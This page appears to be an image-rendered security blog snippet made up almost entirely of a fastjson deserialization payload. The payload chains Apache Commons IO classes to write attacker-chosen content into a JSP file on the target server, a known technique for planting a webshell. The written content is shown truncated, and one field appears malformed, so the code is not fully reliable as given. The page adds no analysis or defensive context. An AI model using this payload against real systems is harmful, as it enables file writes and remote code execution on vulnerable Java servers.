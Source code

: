 ```plain
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker888.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}
```

[![](assets/1706254407-80817f6ef630a3b54f02ea229aadd8df.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231022115419944.png)
